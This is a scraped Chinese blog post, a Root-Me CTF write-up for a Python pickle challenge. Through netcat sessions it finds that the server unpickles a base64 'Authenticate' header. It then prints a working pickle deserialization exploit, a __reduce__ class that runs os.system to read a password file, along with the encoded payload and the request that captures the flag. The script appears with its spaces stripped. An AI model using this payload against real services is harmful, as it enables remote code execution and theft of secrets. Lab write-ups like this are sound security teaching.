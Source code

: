 <!--yml
category: 未分类
date: 2022-04-26 14:19:23
-->

# python 重定向 ctf_CTF-rootme 题解之Python - pickle_深夜利行的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_33740713/article/details/113497365](https://blog.csdn.net/weixin_33740713/article/details/113497365)

Read a pickled object hierarchy from a bytes object and return the reconstituted object hierarchy specified therein.

The protocol version of the pickle is detected automatically, so no protocol argument is needed. Bytes past the pickled object’s representation are ignored.

Optional keyword arguments are fix_imports, encoding and errors, which are used to control compatibility support for pickle stream generated by Python 2\. If fix_imports is true, pickle will try to map the old Python 2 names to the new names used in Python 3\. The encoding and errors tell pickle how to decode 8-bit string instances pickled by Python 2; these default to ‘ASCII’ and ‘strict’, respectively. The encoding can be ‘bytes’ to read these 8-bit string instances as bytes objects. Using encoding='latin1' is required for unpickling NumPy arrays and instances of datetime, date and time pickled by Python 2.

[ BlackArch ~ ]#nc challenge02.root-me.org 60005

admin

Error response

# Error response

。

Error code 400.

Message: Bad request syntax ('admin').

Error code explanation: 400 = Bad request syntax or unsupported method.//请求方法不对

[ BlackArch ~ ]# nc challenge02.root-me.org 60005

GET / HTTP/1.0

HTTP/1.0 404 Not Found

Server: BaseHTTP/0.3 Python/2.7.6

Date: Thu, 28 Mar 2019 03:58:48 GMT

Content-type: text/plain

{"result": "Not allowed you should first AUTH"}    //使用AUTH方法

[ BlackArch ~ ]# nc challenge02.root-me.org 60005

AUTH admin HTTP/1.0

HTTP/1.0 404 Not Found

Server: BaseHTTP/0.3 Python/2.7.6

Date: Thu, 28 Mar 2019 03:26:00 GMT

Content-type: text/plain

{"result": "Can't find 'Authenticate' header"}          //http请求头需要包含Authenticate字段。

[ BlackArch ~ ]#nc challenge02.root-me.org 60005

AUTH admin HTTP/1.0

Authenticate:admin

HTTP/1.0 404 Not Found

Server: BaseHTTP/0.3 Python/2.7.6

Date: Thu, 28 Mar 2019 03:26:24 GMT

Content-type: text/plain

{"result": "Authentication failed = Traceback (most recent call last):\n  File \"/challenge/app-script/ch5/ch5\", line 52, in do_AUTH\n    authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))\n  File \"/usr/lib/python2.7/base64.py\", line 76, in b64decode\n    raise TypeError(msg)\nTypeError: Incorrect padding\n"}

上述操作我们得到了关键信息authcombi = pickle.loads(base64.b64decode(self.headers.getheader('Authenticate')))，将http请求头中的Authenticate字段通过

Base64解码后得到的字节对象再通过pickle模块反序列化后得到的结果赋值给authcombi变量。

解题思路:构造相对应的HTTP请求头，主要构造Authenticate这个字段，首先这个字段是一个通过Python的pickle模块序列化后的一个字节对象，并且需要使用base64编码格式。

编写python脚本如下：

#!/usr/bin/env python

importosimportcPickleimportbase64classRunCmd(object):def __reduce__(self):return(os.system,

(('cat /challenge/app-script/ch5/.passwd >&4'),))print(base64.b64encode(cPickle.dumps(RunCmd())))

执行该脚本得到Payload:

Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou

构造如下HTTP请求：

[ BlackArch ~ ]# nc challenge02.root-me.org 60005AUTH admin HTTP/1.0Authenticate:Y3Bvc2l4CnN5c3RlbQpwMQooUydjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkID4mNCcKcDIKdHAzClJwNAou

//输入这两行后回车

6kSGEI2bh8bgRfCW    //得到flag

HTTP/1.0 200OK

Server: BaseHTTP/0.3 Python/2.7.6Date: Thu,28 Mar 2019 04:03:29GMT

Content-type: text/plain

{"result": "Authentication successful"}

附录：pickle模块

python的pickle模块实现了python的所有数据序列和反序列化。基本上功能使用和JSON模块没有太大区别，方法也同样是dumps/dump和loads/load。cPickle是pickle模块的C语言编译版本相对速度更快。

与JSON不同的是pickle不是用于多种语言间的数据传输，它仅作为python对象的持久化或者python程序间进行互相传输对象的方法，因此它支持了python所有的数据类型。

pickle反序列化后的对象与原对象是等值的副本对象，类似与deepcopy。